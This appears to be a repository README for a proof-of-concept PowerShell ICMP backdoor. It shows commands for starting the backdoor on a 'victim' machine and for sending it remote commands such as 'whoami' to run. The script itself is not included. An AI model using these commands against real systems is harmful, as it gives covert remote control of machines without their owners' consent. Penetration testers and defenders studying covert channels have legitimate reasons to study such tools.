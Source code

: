 <h1>ICMP-Backdoor</h1>
ICMP-Backdoor is a proof of concept PowerShell script that allows you to create and interact with a simple ICMP Backdoor.  This should not be used as is in an engagement as no security is enforced and anyone with this script can interact with your backdoors.
<br/><br/>
ICMP-Backdoor client and server require elevated privileges in order to create raw sockets.
<br/>
<h2>Usage</h2>
<h3>Starting a Backdoor on a Victim</h3>
<h4>Syntax</h4>
<ul><li>
Invoke-ICMPBackdoor [[-BindIP] &lt;String&gt;] [&lt;CommonParameters&gt;]
</li>
</ul>
<h4>Example</h4>
<ul>
<li>
Invoke-ICMPBackdoor -BindIP 192.168.1.1
<ul><li>This command starts an ICMP backdoor that will be bound to the specified IP address, 192.168.1.1.</li></ul>
</ul>
<h3>Sending a Command to a Backdoor</h3>
<h4>Syntax</h4>
<ul><li>
Send-ICMPCommand [-ServerIP] &lt;String&gt; [[-BindIP] &lt;String&gt;] [-Command] &lt;String&gt; [&lt;CommonParameters&gt;]
</li>
</ul>
<h4>Example</h4>
<ul>
<li>
Send-ICMPCommand -BindIP 192.168.1.2 -ServerIP 192.168.1.1 -Command whoami
<ul><li>This command connects to the ICMP Backdoor on 192.168.1.1 and sends the command "whoami" to the remote system for execution.  Results will be returned as a string to the BindIP address, which must be a valid IP address on the system sending the command.</li></ul>
</ul>
<br/>

